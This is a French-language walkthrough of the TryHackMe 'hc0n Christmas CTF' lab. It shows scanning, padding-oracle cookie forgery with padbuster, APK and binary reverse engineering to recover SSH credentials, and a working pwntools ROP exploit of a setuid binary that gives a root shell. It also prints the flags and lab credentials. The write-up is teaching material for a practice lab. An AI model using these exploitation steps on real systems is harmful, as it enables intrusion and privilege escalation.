

# hc0n Christmas CTF #

## Task 1 h-c0n Christmas CTF ##

```bash
sudo sh -c "echo '10.10.50.56 christmas.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ nmap_all christmas.thm

sudo nmap -A christmas.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-17 13:37 CET
Nmap scan report for christmas.thm (10.10.50.56)
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0b:e7:57:fa:16:73:ff:93:03:b8:f6:c5:c3:f3:16:07 (RSA)
|   256 17:8d:5b:e2:80:56:d1:96:e6:86:40:d4:82:c5:b3:08 (ECDSA)
|_  256 b6:d3:2b:0b:fe:e8:41:da:84:3d:08:c4:a2:71:4e:d9 (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: hc0n Christmas CTF
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 200 
|     Date: Wed, 17 Nov 2021 12:38:38 GMT
|     Connection: close
|_    RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=
|_http-title: Site doesn't have a title.
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=11/17%Time=6194F7CE%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,75,"HTTP/1\.1\x20200\x20\r\nDate:\x20Wed,\x2017\x20Nov\x20202
SF:1\x2012:38:38\x20GMT\r\nConnection:\x20close\r\n\r\nRwO9\+7tuGJ3nc1cIhN
SF:4E31WV/qeYGLURrcS7K\+Af85w=")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x20\r\
SF:nDate:\x20Wed,\x2017\x20Nov\x202021\x2012:38:38\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nRwO9\+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K\+Af85w=")%r(FourO
SF:hFourRequest,75,"HTTP/1\.1\x20200\x20\r\nDate:\x20Wed,\x2017\x20Nov\x20
SF:2021\x2012:38:38\x20GMT\r\nConnection:\x20close\r\n\r\nRwO9\+7tuGJ3nc1c
SF:IhN4E31WV/qeYGLURrcS7K\+Af85w=");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/17%OT=22%CT=1%CU=40673%PV=Y%DS=2%DC=T%G=Y%TM=6194F7
OS:E6%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=108%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%
OS:O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   35.38 ms 10.9.0.1
2   35.78 ms christmas.thm (10.10.50.56)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.76 seconds

```

nmap nous montre plusiseurs services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   
Le service HTTP-PROXY sur le port 8080. 

  

Sur la page principale nous avons une interface qui nous permet de s'enregistrer ou de créer un nouveau compte.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://christmas.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -q -t 100
/register.php         (Status: 200) [Size: 1651]
/login.php            (Status: 200) [Size: 1607]
/header.php           (Status: 200) [Size: 793] 
/admin                (Status: 301) [Size: 314] [--> http://christmas.thm/admin/]
/footer.php           (Status: 200) [Size: 51]                                   
/css                  (Status: 301) [Size: 312] [--> http://christmas.thm/css/]  
/index.php            (Status: 200) [Size: 1975]                                 
/images               (Status: 301) [Size: 315] [--> http://christmas.thm/images/]
/javascript           (Status: 301) [Size: 319] [--> http://christmas.thm/javascript/]
/logout.php           (Status: 302) [Size: 793] [--> /index.php]                      
/classes              (Status: 301) [Size: 316] [--> http://christmas.thm/classes/]   
/robots.txt           (Status: 200) [Size: 170]                                       
/server-status        (Status: 403) [Size: 278]                                       
/hide-folders         (Status: 301) [Size: 321] [--> http://christmas.thm/hide-folders/]
```  

Avec gobuster on voit un fichier robots.txt et un répertoire hide-folders.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://christmas.thm/robots.txt

#Administrator for / is: administratorhc0nwithyhackme
#remember, remember the famous group 3301 to solve this, the secret IV wait for you!

User-agent: *
Allow: iv.png 
```

Dans robots.txt on trouve un nom qui est : administratorhc0nwithyhackme   

Dans robots il y une image iv.png 

  
  

On se crée un compte.  
Un fois le compte créée, on remarque un cookie a été fait. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ padbuster http://christmas.thm/login.php NHhnct8l8JsZUy5Y68jKydmj8BTo7Njj 8 --cookies hcon=NHhnct8l8JsZUy5Y68jKydmj8BTo7Njj --encoding 0 -plaintext user=administratorhc0nwithyhackme

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1488

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 5

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1623	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 5 Results:
[+] New Cipher Text (HEX): 2f6a7924d4a0693a
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (117/256) [Byte 8]
[+] Success: (254/256) [Byte 7]
[+] Success: (229/256) [Byte 6]
[+] Success: (70/256) [Byte 5]
[+] Success: (197/256) [Byte 4]
[+] Success: (88/256) [Byte 3]
[+] Success: (255/256) [Byte 2]
[+] Success: (68/256) [Byte 1]

Block 4 Results:
[+] New Cipher Text (HEX): c06ed756df7b6be7
[+] Intermediate Bytes (HEX): b406ae3ebe18008a

[+] Success: (94/256) [Byte 8]
[+] Success: (81/256) [Byte 7]
[+] Success: (192/256) [Byte 6]
[+] Success: (249/256) [Byte 5]
[+] Success: (8/256) [Byte 4]
[+] Success: (53/256) [Byte 3]
[+] Success: (57/256) [Byte 2]
[+] Success: (243/256) [Byte 1]

Block 3 Results:
[+] New Cipher Text (HEX): 6ab2a59e332ddaca
[+] Intermediate Bytes (HEX): 05c0cdfd0343ada3

[+] Success: (185/256) [Byte 8]
[+] Success: (120/256) [Byte 7]
[+] Success: (173/256) [Byte 6]
[+] Success: (44/256) [Byte 5]
[+] Success: (13/256) [Byte 4]
[+] Success: (229/256) [Byte 3]
[+] Success: (13/256) [Byte 2]
[+] Success: (55/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): a89a7485a422eb32
[+] Intermediate Bytes (HEX): c1f41df6d0508a46

[+] Success: (34/256) [Byte 8]
[+] Success: (216/256) [Byte 7]
[+] Success: (106/256) [Byte 6]
[+] Success: (173/256) [Byte 5]
[+] Success: (27/256) [Byte 4]
[+] Success: (139/256) [Byte 3]
[+] Success: (50/256) [Byte 2]
[+] Success: (58/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): bbba16926af44eb2
[+] Intermediate Bytes (HEX): cec973e057952adf

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: u7oWkmr0TrKomnSFpCLrMmqypZ4zLdrKwG7XVt97a%2Bcvankk1KBpOgAAAAAAAAAA
-------------------------------------------------------
```

On brute force le cookie avec padbuster.   
On trouve le cookie qui est : u7oWkmr0TrKomnSFpCLrMmqypZ4zLdrKwG7XVt97a%2Bcvankk1KBpOgAAAAAAAAAA  

   

La page de l'admin nous montre la clé secrète de l'apk est : hconkwithyhackme  

Dans gobuster on vois un dossier admin.   

   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://christmas.thm/admin/app-release.apk -nv
2021-11-17 20:03:09 URL:http://christmas.thm/admin/app-release.apk [1494080/1494080] -> "app-release.apk" [1]  
```

On trouve un fichier app-release.apk on le télécharge.  

   
Y
On décompile de fichier avec jadx.  
On voit le texte encodé est sur le port 8080 et que l'encodage est du AES/CBC/PKCS5PADDING   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://christmas.thm:8080/
RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=   
```

Sur le port 8080 on voit que le texte est encodé en AES.   


On a ici des runes scandinaves modifiés, qui vient de cicada.  


On décode les symboles et on trouve : THEIVFORINGEOAEY  

  

On décode le message encodé en AES et on trouve le nom de l'utilisateur SSH qui est : thedarktangent  

  
 

On va dans hide-folders et 1 et on n'a pas la permission de voir la page.  


Avec burp on intercepte la requête de la page, on change GET par OPTIONS et on trouve la première partie du mot de passe.  
La première partie du mot de passe est : Gf7MRr55  

  

On la partie 2 on trouve un fichier.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://christmas.thm/hide-folders/2/hola -nv
2021-11-17 21:38:05 URL:http://christmas.thm/hide-folders/2/hola [8824/8824] -> "hola" [1]

tim@kali:~/Bureau/tryhackme/write-up$ file hola 
hola: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=21cb4a7cb37616ff6d5b8b99a8faf79ab5d4ffee, not stripped

tim@kali:~/Bureau/tryhackme/write-up$ chmod +x hola
```

  

On télécharge le fichier hola.  
Le fichier hola est un fichier exécutable.  
On le rend exécudtable.  

On décompile le fichier avec ghidra.   
On remarque le programme demande un nom d'utilisateur et un mot de passe.  

On voit le que le nom d'utilisateur est : stuxnet 
Le mot de passe est : n$@#PDuliL  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ./hola 
Enter your username:
stuxnet
Enter your password:
n$@#PDuliL
Welcome, Login Success! this is a second part of ssh password
```

En mettant le nom d'utilisateur et le mot de passe, le programme nous dit que le mot de passe est la deuxième partie du mot de passe.  

**What is the user flag?**

On a maintenant les identifiants ssh qui sont : thedarktangent:Gf7MRr55n$@#PDuliL   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_ssh thedarktangent christmas.thm
pwncat thedarktangent@christmas.thm
[21:53:02] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: ******************
[21:53:09] christmas.thm:22: registered new host w/ db                                                                                                                                                                          manager.py:504
(local) pwncat$                                                                                                                                                                                                                               
(remote) thedarktangent@ubuntu:/home/thedarktangent$ ls
apk  hc0n  user.txt
(remote) thedarktangent@ubuntu:/home/thedarktangent$ cat user.txt 
thm{hc0n_christmas_2019!!!}

Informacion:

Parte del usuario creado por César Calderón aka @_stuxnet
Si me ves por la h-c0n nos bebemos una birra <3 
```

On se connecte sur SSH avec les identifiants, on trouve notre flag dans le fichier user.txt.  
Le flag est : thm{hc0n_christmas_2019!!!} 

**What is the root flag?**  

```bash
(remote) thedarktangent@ubuntu:/home/thedarktangent$ ls -al hc0n
-rwsrwsr-x 1 root root 8952 Dec 10  2019 hc0n
```

On remarque le fichier hc0n est setuid.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ scp thedarktangent@christmas.thm:hc0n ./
thedarktangent@christmas.thm's password: 
hc0n                                     

tim@kali:~/Bureau/tryhackme/write-up$ chmod +x hc0n 
```

On télécharge le fichier pour analyse et on le rend exécutable.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo $(python -c "print('A'*200)") > in

tim@kali:~/Bureau/tryhackme/write-up$ gdb -q ./hc0n
Reading symbols from ./hc0n...
(No debugging symbols found in ./hc0n)
(gdb) r < in
Starting program: /home/tim/Bureau/tryhackme/write-up/hc0n < in
What will you be having for dinner !! (: 


Program received signal SIGSEGV, Segmentation fault.
0x0000000000400663 in main ()

```

On fabrique un fichier teste pour vérifier si on a un débordement de tampon.  
On exécute le programme dans gdb et on lui injecte la chaîne de caractères et on a un segementation fault.   
Si on a un segmentation fault alors on a un débordement de tampon.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

tim@kali:~/Bureau/tryhackme/write-up$ gdb -q ./hc0n
Reading symbols from ./hc0n...
(No debugging symbols found in ./hc0n)
(gdb) r
Starting program: /home/tim/Bureau/tryhackme/write-up/hc0n 
What will you be having for dinner !! (: 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400663 in main ()
(gdb) x $rbp
0x6241376241366241:	Cannot access memory at address 0x6241376241366241
```

On génére un pattern pour voire l'adresse à partire de ou ça plante.  
On lance le programme dans le gdb et copie le paterne et ça crash.   
On regarde le registre rbp qui nous montre l'adresse écrasée pas notre chaîne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
[*] Exact match at offset 48
```

On calcul l'offset qui est de 48.
Une chaîne inferieur à 48 octects ne débordera pas, il faut aussi ajouter l'adresse de retour qui est de 8 octets car on est sur une archtecture 64 bit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ROPgadget --binary hc0n --string '/bin/sh'
Strings information
============================================================
0x00000000004006f8 : /bin/sh

tim@kali:~/Bureau/tryhackme/write-up$ ROPgadget --binary hc0n --only 'syscall'
Gadgets information
============================================================
0x00000000004005fa : syscall

Unique gadgets found: 1
```

Avec ROPgadget on trouve les instructions. 
Le chemin /bin/sh.  
L'appel de /bin/sh par syscall.  

On faire un appel système (syscall avec tout les bon arguments)  

Sous forme 

syscall 0x00000000004005fa
pop rax
pop rdi
pop rsi
pop rdx
/bin/sh strings 0x00000000004006f8  

```bash
(gdb) x/10i 0x00000000004005fa
   0x4005fa <entree_1+4>:	syscall 
   0x4005fc <entree_1+6>:	ret    
   0x4005fd <entree_1+7>:	nop
   0x4005fe <entree_1+8>:	pop    %rbp
   0x4005ff <entree_1+9>:	ret    
   0x400600 <entree_2>:	push   %rbp
   0x400601 <entree_2+1>:	mov    %rsp,%rbp
   0x400604 <entree_2+4>:	pop    %rdi
   0x400605 <entree_2+5>:	ret    
   0x400606 <entree_2+6>:	nop
(gdb) x/100i 0x00000000004005fa
   0x4005fa <entree_1+4>:	syscall 
   0x4005fc <entree_1+6>:	ret    
   0x4005fd <entree_1+7>:	nop
   0x4005fe <entree_1+8>:	pop    %rbp
   0x4005ff <entree_1+9>:	ret    
   0x400600 <entree_2>:	push   %rbp
   0x400601 <entree_2+1>:	mov    %rsp,%rbp
   0x400604 <entree_2+4>:	pop    %rdi <------------------------ rdi 
   0x400605 <entree_2+5>:	ret    
   0x400606 <entree_2+6>:	nop
   0x400607 <entree_2+7>:	pop    %rbp
   0x400608 <entree_2+8>:	ret    
   0x400609 <entree_3>:	push   %rbp
   0x40060a <entree_3+1>:	mov    %rsp,%rbp
   0x40060d <entree_3+4>:	pop    %rsi <-------------------------- rsi
   0x40060e <entree_3+5>:	ret    
   0x40060f <entree_3+6>:	nop
   0x400610 <entree_3+7>:	pop    %rbp 
   0x400611 <entree_3+8>:	ret    
   0x400612 <entree_4>:	push   %rbp
   0x400613 <entree_4+1>:	mov    %rsp,%rbp
   0x400616 <entree_4+4>:	pop    %rdx <--------------------------- rdx 
   0x400617 <entree_4+5>:	ret    
   0x400618 <entree_4+6>:	nop
   0x400619 <entree_4+7>:	pop    %rbp
   0x40061a <entree_4+8>:	ret    
   0x40061b <entree_5>:	push   %rbp
   0x40061c <entree_5+1>:	mov    %rsp,%rbp
   0x40061f <entree_5+4>:	pop    %rax <------------------------- rax 
```

A partire de l'adresse du syscall nous allons prendre les bonnes valeurs des registres de retour. (sous gdb)

On a toutes les bonnes adresses.  

syscall 0x00000000004005fa
pop rax 0x40061f
pop rdi 0x400604  
pop rsi 0x40060d
pop rdx 400616
/bin/sh strings 0x00000000004006f8 

```python
from pwn import *
import sys

HOST = "christmas.thm"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = bytes("A"*56, 'ascii')
	payload += str(p64(pop_rax))
	payload += str(p64(59)) # 59 for cveexe
	payload += str(p64(pop_rdi))
	payload += str(p64(bin_sh))
	payload += str(p64(pop_rsi))
	payload += str(p64(0x0))
	payload += str(p64(pop_rdx))
	payload += str(p64(0x0))
	payload += str(p64(syscall))

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="thedarktangent", password="Gf7MRr55n$@#PDuliL")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

On crée un scripte qui va exploiter le débordement et exécuter un shell.  

```bash
im@kali:~/Bureau/tryhackme/write-up$ python exploit-christmas.py 
[+] Connecting to christmas.thm on port 22: Done
[*] thedarktangent@christmas.thm:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: './hc0n': Done
b'What will you be having for dinner !! (: \n'
[*] Switching to interactive mode

# $ id
uid=0(root) gid=1000(thedarktangent) groups=1000(thedarktangent),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
# $ cd /root/
# $ ls
root.txt
# $ cat root.txt
thm{3xplo1t_my_m1nd}

Informacion:

Exploit challenge create by @d4mianwayne
```

On lance scripte on obtient un shell root.  
On lit le fichier root.txt dans root et on a le flag.  
Le flag est : thm{3xplo1t_my_m1nd}   